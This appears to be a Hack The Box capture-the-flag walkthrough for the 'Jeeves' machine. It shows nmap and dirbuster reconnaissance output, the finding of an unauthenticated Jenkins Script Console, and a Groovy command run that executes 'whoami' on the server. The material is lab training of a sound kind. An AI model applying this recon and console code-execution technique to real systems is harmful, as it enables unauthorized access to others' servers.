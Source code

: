 Jeeves

https://www.hackthebox.eu/home/machines/profile/114

* Author: mrb3n
* Series: HTB

## Scan target using nmap

### Service Scan
```
nmap -sV 10.10.10.63
Starting Nmap 7.70 ( https://nmap.org ) at 2018-05-24 15:53 MDT
Nmap scan report for 10.10.10.63
Host is up (0.18s latency).
Not shown: 995 filtered ports
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 10.0
135/tcp   open  msrpc              Microsoft Windows RPC
445/tcp   open  microsoft-ds       Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
50000/tcp open  http               Jetty 9.4.z-SNAPSHOT
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 117.93 seconds
```

two http ports stand out
Going to run dirbuster on them
80, 50000

### Running Dirbuster on IIS 10.0
```

```
dirbuster -u http://10.10.10.63 -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 15
Starting OWASP DirBuster 1.0-RC1
Starting dir/file list based brute forcing
```

### Running Dirbuster on JETTY 9.4
```

```
dirbuster -u http://10.10.10.63:50000 -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 15
Starting OWASP DirBuster 1.0-RC1
Starting dir/file list based brute forcing
Dir found: /askjeeves/ - 200
Dir found: /askjeeves/about/ - 200
Dir found: / - 200
File found: /error.html - 200
File found: /jeeves.PNG - 200
Dir found: /askjeeves/people/ - 200

```

Testing out 10.10.10.63:50000/askjeeves
Discovered, anonymous access, navigated to Manage Jenkins
Clicked Script Console -

Type in an arbitrary Groovy script and execute it on the server. 
Useful for trouble-shooting and diagnostics. 
Use the ‘println’ command to see the output (if you use System.out, it will go to the server’s stdout, which is harder to see.) Example:

println(Jenkins.instance.pluginManager.plugins)

All the classes from all the plugins are visible. jenkins.*, jenkins.model.*, hudson.*, and hudson.model.* are pre-imported.

### Groovy Script Test
```

```
cmd = "whoami"
println cmd.execute().text

Result

jeeves\kohsuke

```	



